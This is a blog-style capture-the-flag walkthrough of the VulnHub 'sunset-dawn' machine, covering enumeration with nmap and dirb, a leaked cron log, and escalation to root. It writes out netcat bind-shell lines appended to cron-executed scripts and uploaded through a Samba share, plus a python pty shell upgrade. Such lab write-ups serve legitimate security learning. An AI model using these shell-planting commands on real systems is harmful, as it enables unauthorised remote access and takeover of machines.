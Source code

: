 ```yaml
---
published: true
layout: post
title: dawn
---
```


This is a machine from [Vuln Hub!](https://www.vulnhub.com/entry/sunset-dawn,341/) It was labeled as an easy machine, but figured I'd still learn a few things!

I start out with a basic nmap scan as usual `nmap -sV -sS dawn`

![nmap]({{ site.baseurl }}/images/dawn/nmap.png)

Right away this tells us it has port 80 open, has a SQL database, and a Samba Share. Now the SQL database should not be an open port and I would be extremely surprised if that wasn't a path towards root.

I decided to go the port 80 route.

![port80]({{ site.baseurl }}/images/dawn/port80.png)

This isn't really giving me much, so I decided to run a dirbuster on the port.

`dirb 192.168.1.165` 
It's worth noting that additional options can be applied to this command. It just wasn't necessary in this case.

![dirb]({{ site.baseurl }}/images/dawn/dirb.png) 

conveniently this tells me there is a log page located at http://dawn/logs

![Logs]({{ site.baseurl }}/images/dawn/logs.png)

All but one of these links were non-accessible. `Management.log` was the only one available to us, so we took a look at it. At first glance it shows us there is cron jobs running, and files that have executable rights by everyone.

![Management]({{ site.baseurl }}/images/dawn/managementlog.png)

After a few failed attempts at getting a working shell, I decide to look back at the management log. Since this is considered an easy machine the command to execute the shell was already there...

I started a netcat on the port in the log `nc 192.168.1.165 1024`

![Shell]({{ site.baseurl }}/images/dawn/usershell.png)

Great! But if we needed to upload our own shell we could have done:


	echo "nc -e /bin/bash -lvp 1024 &" >> product-control
	echo "nc -e /bin/bash -lvp 1025 &" >> web-control


	
Inside of the Samba share type: `put web-control` and `put product-control` to upload the shells. Then make sure to verify they are being executed by downloading a new version of the Management.log.

![Double Checking]({{ site.baseurl }}/images/dawn/doublechecklog.png)

A quick google search will give you this command to spawn a more complete shell: `python -c 'import pty; pty.spawn("/bin/bash")'`. Once we have this shell I decided to start looking around. After realizing there was no user flag the next step was privilege escelation.

I typed `History` into the shell with this output:

![History Output]({{ site.baseurl }}/images/dawn/bash_history.png)

`zsh` was the only command that looked interesting. A bit of research shows it is a different shell that can be installed. 

I decide to run the command to see what happens. This is the result:

![root]({{ base.url }}/images/dawn/root.png)

All in all, I was extremely surprised that this gave me root. Privilege escelation is what I'm struggling with most right now. There are a lot of writeups online on this box, but for the sake of learning I decided to avoid them in my google searches.



